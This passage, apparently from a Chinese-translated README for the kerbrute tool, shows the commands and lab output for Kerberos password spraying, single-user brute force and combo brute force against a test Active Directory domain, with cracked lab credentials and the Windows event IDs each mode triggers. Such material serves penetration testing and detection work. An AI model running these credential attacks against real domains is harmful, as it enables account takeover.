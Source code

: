 ```
root@kali:~# ./kerbrute_linux_amd64 passwordspray -d lab.ropnop.com domain_users.txt Password123

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (43f9ca1) - 03/06/19 - Ronnie Flathers @ropnop

2019/03/06 21:37:29 >  Using KDC(s):
2019/03/06 21:37:29 >   pdc01.lab.ropnop.com:88

2019/03/06 21:37:35 >  [+] VALID LOGIN:  callen@lab.ropnop.com:Password123
2019/03/06 21:37:37 >  [+] VALID LOGIN:  eshort@lab.ropnop.com:Password123
2019/03/06 21:37:37 >  Done! Tested 2755 logins (2 successes) in 7.674 seconds
```



### 野蛮用户

这是针对用户名的传统暴力破解帐户。仅当您确定没有锁定策略时才运行此命令！这将生成两个事件 ID [4768 - 请求了 Kerberos 身份验证票证 (TGT)](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4768)和[4771 - Kerberos 预身份验证失败](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4771)

```
root@kali:~# ./kerbrute_linux_amd64 bruteuser -d lab.ropnop.com passwords.lst thoffman

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (43f9ca1) - 03/06/19 - Ronnie Flathers @ropnop

2019/03/06 21:38:24 >  Using KDC(s):
2019/03/06 21:38:24 >   pdc01.lab.ropnop.com:88

2019/03/06 21:38:27 >  [+] VALID LOGIN:  thoffman@lab.ropnop.com:Summer2017
2019/03/06 21:38:27 >  Done! Tested 1001 logins (1 successes) in 2.711 seconds
```



### 暴力破解

`username:password`此模式只是从文件或中读取用户名和密码组合（格式为） `stdin`，并使用 Kerberos PreAuthentication 对其进行测试。它将跳过任何空白行或具有空白用户名/密码的行。这将生成两个事件 ID [4768 - 请求了 Kerberos 身份验证票证 (TGT)](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4768)和[4771 - Kerberos 预身份验证失败](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4771)

```
$ cat combos.lst | ./kerbrute -d lab.ropnop.com bruteforce -

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (n/a) - 05/11/19 - Ronnie Flathers @ropnop

2019/05/11 18:40:56 >  Using KDC(s):
2019/05/11 18:40:56 >   pdc01.lab.ropnop.com:88

```